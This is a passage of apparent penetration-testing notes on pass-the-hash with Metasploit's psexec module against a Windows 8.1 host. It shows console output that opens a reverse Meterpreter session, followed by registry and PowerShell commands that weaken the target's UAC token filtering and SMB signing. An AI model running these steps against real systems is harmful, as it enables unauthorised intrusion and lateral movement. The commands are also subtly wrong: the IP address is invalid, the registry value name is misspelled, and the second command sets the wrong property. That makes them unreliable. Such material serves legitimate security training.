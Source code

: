     If the attack works, we should be able to obtain a new meterpreter session:
      ```
      msf exploit(psexec) > exploit

      [*] Started reverse TCP handler on 1912.168.102.147:4444
      [*] Connecting to the server...
      [*] Authenticating to 192.168.102.155:445 as user 'els'...
      [*] Selecting PowerShell target
      [*] 192.168.102.155:445 - Executing the payload...
      [+] 192.168.102.155:445 - Service start timed out, OK if running a command or non-service executable...
      [*] Sending stage (957487 bytes) to 192.168.102.155
      [*] Meterpreter session 3 opened (192.168.102.147:4444 -> 192.168.102.155:49167) at 2016-02-25 10:54:24 -0500

      meterpreter > sysinfo
      Computer         : WIN-K75TDEUEPA5
      OS               : Windows 8.1 (Build 9600)
      Architecture     : x64 (Current Process is WOW64)
      System Language  : en_US
      Domain           : WORKGROUP
      ```

    Sometimes being in the local administrators group is not enough to pass-the-hash, and depending on the Windows OS system configuration and version, come changes may be required on the target system in order for this to work.

      The issue typically presents itself when trying to pass-the-hash from an account which isn't an "actual" administrator (RID-500), but rather, from an account that is in the Administrators group.

      For example, if we try the psexec module from a session where our current user is in the Administrator group, but not an "actual" Administrator, and we get a `STATUS_ACCESS_DENIED` (*Command=117 WordCount=0*) error, this is a good indication that registry changes may be required on the target host in order for a successful pass-the-hash attack.
        ```
        msf exploit(psexec) > exploit
        [*] Started reverse TCP handler on 1912.168.102.147:4444
        [*] Connecting to the server...
        [*] Authenticating to 192.168.102.155:445 as user 'els'...
        [-] Exploit failed [no-access]: Rex:Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS_ACCESS_DENIED (Command=117 WordCount=0)
        ```

      The two registry entries needed on the target for this to be successful are:
        - `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System`<br>
          Add a new **DWORD** (32-bit) named **LocalAccountTokenFilterPolicy** and set its value to **1**
        - `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters` <br>
          Add a new **DWORD** (32-bit) named **RequireSecuritySignature** and set its value to **0**

      Nonetheless, if we already have a session on the target as an administrator, and would like to "modify" those registry settings to help us with the attack, we can do so with a couple simple powershell one-liners from a Powershell shell:
        ```
        PS> Set-ItemProperty -Path
        HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LocalAccountTokenFitlerPolicy -Value 1 -Type DWord
        ```
        ```
        PS> Set-ItemProperty -Path
        HKLM:\System\CurrentControlSet\Services\LanManServer\Parameters -Name LocalAccountTokenFitlerPolicy -Value 1 -Type DWord
        ```
